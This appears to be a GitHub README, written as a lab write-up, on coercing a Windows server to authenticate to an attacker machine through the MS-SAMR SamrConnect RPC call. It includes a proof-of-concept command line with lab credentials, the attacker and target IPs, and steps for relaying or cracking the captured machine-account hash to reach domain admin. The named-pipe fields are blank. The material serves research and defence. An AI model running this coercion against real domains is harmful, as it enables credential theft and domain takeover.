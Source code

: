 # MS-SAMR - Remote call to SamrConnect (opnum 0)

## Summary

+ **Protocol**: [[MS-SAMR]: Security Account Manager (SAM) Remote Protocol (Client-to-Server)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380)

+ **Protocol UUID**: 12345778-1234-abcd-ef00-0123456789ac

+ **Protocol version**: 1.0

+ **SMB Named pipe**: ``

+ **Function name**: [`SamrConnect`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/defe2091-0a61-4dfa-be9a-2c1206d53a1f)

+ **Function operation number**: `0`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-SAMR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380) protocol (with uuid `12345778-1234-abcd-ef00-0123456789ac` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-SAMR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-SAMR]: Security Account Manager (SAM) Remote Protocol (Client-to-Server)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380) and allows to call RPC functions of this protocol. We will then call the remote [`SamrConnect`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/defe2091-0a61-4dfa-be9a-2c1206d53a1f) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
SamrConnect('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
long SamrConnect(
   [in, unique] PSAMPR_SERVER_NAME ServerName,
   [out] SAMPR_HANDLE* ServerHandle,
   [in] unsigned long DesiredAccess
 );
```

## References

+ Documentation of protocol [MS-SAMR]: Security Account Manager (SAM) Remote Protocol (Client-to-Server): https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/4df07fab-1bbc-452f-8e92-7853a3c7e380

+ Documentation of function `SamrConnect`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-samr/defe2091-0a61-4dfa-be9a-2c1206d53a1f